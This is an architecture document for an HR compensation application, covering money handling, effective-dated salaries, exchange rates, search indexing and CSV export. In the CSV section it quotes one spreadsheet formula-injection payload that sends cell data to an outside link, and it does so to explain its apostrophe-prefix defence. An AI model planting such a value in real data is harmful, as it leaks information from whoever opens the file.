

# Architecture

How the system is put together, and why. Decisions are recorded with the alternatives that were
rejected, since the rejected option is usually the more informative half.

---

## 1. System shape

```
┌─────────────────────────────┐         ┌──────────────────────────────────┐
│  web/  React + TypeScript   │         │  api/  Rails 7.1 (API mode)      │
│                             │  JSON   │                                  │
│  · Employee directory       │ ──────► │  Controllers  (thin, HTTP only)  │
│  · Employee detail+history  │ ◄────── │  Queries      (read paths)       │
│  · Compensation analytics   │  HTTP   │  Commands     (write paths)      │
│                             │         │  Models       (domain rules)     │
│  Server-driven pagination   │         │                                  │
└─────────────────────────────┘         └────────────────┬─────────────────┘
                                                         │
                                                ┌────────▼─────────┐
                                                │   PostgreSQL     │
                                                │  aggregation in  │
                                                │  SQL, not Ruby   │
                                                └──────────────────┘
```

Two deployables. The UI holds no domain rules — it renders what the API computes. Every figure a
user sees is produced by one SQL query, so the number on screen and the number in a CSV export
cannot drift apart.

## 2. Domain model



`Employee` holds identity and placement. `Compensation` holds everything that changes over time.
That split is the whole design: an employee's pay is not an attribute of the employee, it is a
series of dated facts about them.

---

## 3. Key decisions

### ADR-1 — Money is stored as integer minor units

**Context.** Salaries are summed, averaged and converted across currencies.

**Decision.** Store `amount_minor` as a `bigint` (1 234.56 EUR → `123456`) alongside an explicit
`currency_code`. Never a float.

**Consequences.** All arithmetic is exact. Rounding happens once, deliberately, at conversion and
at display. An amount is meaningless without its currency, so the two always travel together.

**Rejected.** `float`/`double` — binary floating point cannot represent 0.1 exactly, and errors
compound across 10,000 rows. `decimal` would be correct but invites accidental float coercion in
Ruby and hides the currency question.

---

### ADR-2 — Compensation is effective-dated; amounts are never mutated

**Context.** The requirement is that a salary change must never destroy the previous value.

**Decision.** Each `Compensation` row carries `effective_from` and `effective_to`. The current
record is the one with `effective_to IS NULL`. Recording a change closes the open record by setting
its `effective_to`, then inserts a new one.

Integrity is enforced in the database, not just in Ruby:

- a `GiST` exclusion constraint prevents two compensation periods for the same employee from
  overlapping;
- a partial unique index on `(employee_id) WHERE effective_to IS NULL` guarantees exactly one
  current record per employee.

**Consequences.** No amount is ever overwritten — only a period is closed — so history is a
by-product of normal use. A correction is itself a dated record with `reason = correction`, which
means mistakes are visible rather than erased.

**On "current".** The word means two different things, and conflating them was a real bug. A raise
agreed in September to start in January is written as an open-ended period the moment it is
recorded, so `effective_to IS NULL` is *not* the same as "what this person is paid today". The
first is a fact about the write path — the row the command closes, and the one the partial unique
index allows exactly one of. The second is a question about a date, and it is answered by
`effective_on(date)` everywhere: the directory, the detail page, the history badge, and analytics.
Reading the open-ended row as today's pay would have shown people a salary they were not yet being
paid, and inflated payroll cost with it.

**On concurrency.** `RecordSalaryChange` originally took `SELECT ... FOR UPDATE` on the outgoing
period. It was removed after measurement: a row lock cannot prevent a concurrent *insert* of a row
that does not exist yet, which is precisely this race, and with two threads racing the loser failed
identically with and without it. The two database constraints above are the actual guarantee, and
the command now translates their violation into a `ConcurrentChange` the API answers as `409`.
Leaving the lock in place would have implied a protection it does not provide.

This is verified in `spec/integration/concurrent_salary_changes_spec.rb`, which runs two real
threads against a real database — the only way to know whether the claim is true.

**Rejected.** *A `salary` column on `employees`* — destroys history on every update; the original
problem. *Pure append-only with no `effective_to`* — philosophically cleaner, but every read needs
`DISTINCT ON` or a window function, which makes the hot path (the 10,000-row directory) markedly
more expensive, and overlapping periods become impossible to constrain in the database.

---

### ADR-3 — Historical rates, and why that makes denormalisation safe

**Context.** Comparing or summing salaries across countries requires a common currency.

**Decision.** Convert each compensation at the exchange rate effective on its **own**
`effective_from` date, not at today's rate. Rates live in an effective-dated table, seeded rather
than fetched from a live API.

**Consequences.** Reported figures are reproducible — last year's payroll cost does not move
because the market moved today. Tests are deterministic and run offline.

This choice then unlocks a performance property. Because a compensation's date never changes, and
the rate for that date never changes, **the converted amount is immutable once written**. So
`amount_base_minor` is computed at write time and stored. The usual objection to denormalisation —
cache invalidation — does not apply, because there is no event that could invalidate it.

The directory can therefore sort and filter on a single indexed integer column, and analytics can
aggregate without joining to rates at all. A correctness decision paid for itself in speed.

The `exchange_rate_used` is stored alongside so any converted figure can be explained and audited.

**Cost, stated honestly.** Changing the organisation's base currency requires a backfill migration.
That is a rare, deliberate, offline operation, and an acceptable price.

**Rejected.** *Live FX API* — non-deterministic tests, network dependency, and historical figures
that drift daily. *Convert on read at today's rate* — same drift problem, plus a rate join on every
query.

---

### ADR-4 — Aggregation happens in SQL

**Context.** Analytics must answer questions over the full population.

**Decision.** Every aggregate — totals, medians, percentiles, distributions — is expressed as SQL.
Medians use Postgres `percentile_cont(...) WITHIN GROUP (ORDER BY ...)`. No endpoint loads the
dataset into Ruby objects.

**Consequences.** Response time is governed by the index, not by object allocation. 10,000
`ActiveRecord` instances cost far more in memory and GC than the query itself costs in Postgres.

**Rejected.** *Ruby-side `map`/`sum`* — readable at 10 rows, indefensible at 10,000, and it makes
the "how do we pay people?" page the slowest part of the product. *Materialised rollups* — the
right answer at a million employees, premature at ten thousand; noted in the improvements list.

---

### ADR-5 — Thin controllers, with queries and commands as objects

**Context.** The two interesting operations are a filtered read and a transactional write.

**Decision.** Controllers parse HTTP and nothing else.

| Layer | Responsibility | Example |
| --- | --- | --- |
| Model | Invariants true of the record in isolation | `Compensation` rejects a non-positive amount |
| Query | Composable read paths | `EmployeeDirectoryQuery` — search, filter, sort, paginate |
| Command | Multi-step writes in a transaction | `RecordSalaryChange` — close period, convert, insert |
| Serializer | Shaping the JSON response | `EmployeeSerializer` |

**Consequences.** Each piece is unit-testable without HTTP. Filtering logic is tested directly
against the database rather than through a controller.

**Rejected.** *Fat models* — `Employee` would accumulate unrelated reporting concerns. *Logic in
controllers* — untestable without the full request cycle, and impossible to reuse for CSV export.

---

### ADR-6 — Money crosses the wire as minor units, formatted in the browser

**Context.** ADR-1 keeps money exact in the database. That guarantee has to survive the JSON
response, and JSON numbers are IEEE 754 doubles — `120000.55` is not representable exactly.

**Decision.** Every amount is serialised as `{ amount_minor, currency_code, minor_unit }`. The
client formats with `Intl.NumberFormat`; it never does arithmetic on the value.

**Consequences.** The UI needs a formatting helper rather than rendering a field directly. In
exchange, the exponent travels with the amount, so the client cannot assume two decimals and
display ¥15,000,000 as ¥150,000.00.

**Rejected.** *A pre-formatted string* (`"$120,000.55"`) — unsortable, unparseable, and bakes the
server's locale into the response. *A float* — precision loss on exactly the field that must not
lose precision.

---

### ADR-7 — A trigram index for directory search

**Context.** HR searches by fragments: part of a surname, the tail of an employee number. That is
`ILIKE '%term%'`, and a leading wildcard makes a btree index unusable, leaving a sequential scan
over 10,000 rows for every keystroke.

**Decision.** One GIN trigram index over the concatenation of the four searchable columns
(`first_name`, `last_name`, `email`, `employee_number`), with `Employee::SEARCHABLE_TEXT` holding
the identical expression the query uses.

**Consequences.** Measured on the full seed, search drops from a sequential scan to a bitmap index
scan — 0.27 ms for 88 matches out of 10,000. Searching across first and last name together ("Anna
Kowalski") works for free, because the index is on the joined string.

The risk is drift: change the expression in the model without a matching migration and search
silently becomes a sequential scan again. A spec runs `EXPLAIN` with `enable_seqscan = off` and
asserts the index name appears in the plan, so the drift fails the build instead of the demo.

**Rejected.** *Four separate `ILIKE` clauses* — four indexes, and no match across a full name.
*PostgreSQL full-text search* — stems and tokenises, so "kowal" would not match "Kowalski"; it
answers a different question than the one HR is asking.

---

### ADR-8 — CSV export is the directory in another representation

**Context.** HR needs the list out of the system — for a board pack, a payroll reconciliation, or
simply to work the way they worked in Excel. The data they want out is the data they are looking
at, filtered the same way.

**Decision.** `GET /api/v1/employees.csv` — the same URL and the same parameters as the list, with
the page boundary removed. `EmployeeDirectoryQuery#all` returns the filtered, ordered relation and
the export writes it.

**Consequences.** An export cannot hold different people, or a different order, from the screen it
was taken from: there is one filtering object, not two that have to be kept in step. The
`page_size` cap stays honest, because "give me everything" now has a supported answer that is not
`page_size=10000`.

**On money, and why the CSV disagrees with the JSON on purpose.** ADR-6 sends minor units over
JSON because a JSON number is a double and the client has `Intl.NumberFormat`. A CSV is opened by a
person who will total a column, so it writes major units with that currency's own number of
decimals — `120000.55` for USD, `15000000` for JPY — with the code in its own column so the sheet
is still filterable. Both derive from the same stored integer and the same exponent, so they can
disagree about presentation without ever disagreeing about the value. The conversion is integer
`divmod`, not division, so ADR-1's guarantee survives the last step too.

**On the formula trigger.** A spreadsheet executes a cell beginning `=`, `+`, `-` or `@`. A name
entered into an HR system as `=HYPERLINK("http://…"&A1)` would fire when the export is opened, on
the machine of the person who asked for it. Free-text columns are prefixed with an apostrophe when
they start with one of those; dates and amounts are generated by us and left alone.

**On size.** Measured on the full seed, the whole organisation is 1.5 MB produced in 180–260 ms,
around half of it the single `pluck`. No `ActiveRecord` object is built — ADR-4's argument applied
to export rather than aggregation. Streaming would buy nothing at this size and cost a held
connection plus the inability to report an error after the headers are sent; it becomes the right
answer in the hundreds of thousands of rows, which is the same point at which rollups start to pay.

**Rejected.** *A separate `/employees/export` endpoint* — a second place for filters to live, and
the first thing to drift. *Background job plus emailed link* — correct at a scale we do not have,
and it turns a two-second action into a workflow. *Sending minor units in the CSV for consistency
with the JSON* — consistent with the other endpoint and useless to the person reading the file.

---

## 4. Performance approach

The directory is the hot path: 10,000 employees, filtered, sorted, paginated.

- **Server-side pagination always.** The API never returns an unbounded collection.
- **Sorting by pay uses the stored `amount_base_minor`** — one integer column, no join to rates
  (ADR-3). Measured, this sort is a top-N heapsort over the joined population either way: 10.2 ms
  when compensation was selected by partial index, 9.9 ms when selected by effective date. The
  index was not what made it fast, and `pg_stat_user_indexes` shows the partial index added for
  this purpose was never once scanned. Recorded here because the original claim was wrong.
- **Single-column indexes on the filters HR actually uses** — country, department, job level. Each
  is measured taking a bitmap index scan: 0.85 ms and 0.68 ms respectively. Not composite indexes:
  the facets are combined freely, and a composite index only helps a prefix of its own column order.
- **No N+1.** The directory loads current pay for the whole page in one statement, not one per row,
  so a page costs a fixed five statements at any page size. Violations are caught by a test, and each
  guard has been confirmed to fail when the bulk load is removed.

Measurements with `EXPLAIN (ANALYZE, BUFFERS)` against the full seed are recorded in
`docs/performance.md`, including two claims that measurement disproved and one benchmark that was
measuring the ActiveRecord query cache rather than Postgres.

## 5. Testing approach

- **RSpec + FactoryBot.** Model specs for invariants, query specs against real SQL, request specs
  for API contracts.
- **Deterministic.** Dates are frozen with `travel_to`; seeded data uses a fixed random seed. No
  test depends on today's date, on ordering luck, or on the network.
- **Fast.** Transactional cleanup, no `sleep`, no HTTP in unit tests.
- **Readable as documentation.** Test names state domain rules — "closes the previous period when a
  raise is recorded" — not mechanics.

The suite is the specification of the domain. A reader should be able to learn the rules of
compensation from the spec files alone.
